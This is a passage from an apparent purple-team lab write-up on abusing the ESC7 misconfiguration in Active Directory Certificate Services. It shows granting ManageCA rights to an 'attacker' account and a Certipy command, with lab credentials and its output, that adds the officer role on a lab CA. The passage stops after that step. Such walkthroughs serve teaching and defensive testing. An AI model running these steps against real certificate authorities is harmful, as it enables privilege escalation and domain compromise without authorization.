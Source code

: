 # 8. ESC7

To abuse ESC7, we need eitheir to control an account that is local admin on the CA or has ManageCA rights. 

## 8.1 Add ManageCA rights to the attacker account

We can do it by going on the "Certificate Authority" tool, then modifying the properties of our CA to add the following permission (ManageCA) to the attacker account :

![ESC7-Configuration.jpg](ESC7/ESC7-Configuration.jpg)

I also duplicated the SubCA template but without any changes (outside of the template name).

## 8.2 Exploitation

- We first need to add the officer role to our account
```
└─$ certipy ca -u attacker@purpleteam.local -p "1attacker*" -dc-ip 172.16.0.1 -ca 'DC01-CA' -add-officer 'attacker'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'attacker' on 'DC01-CA'
```
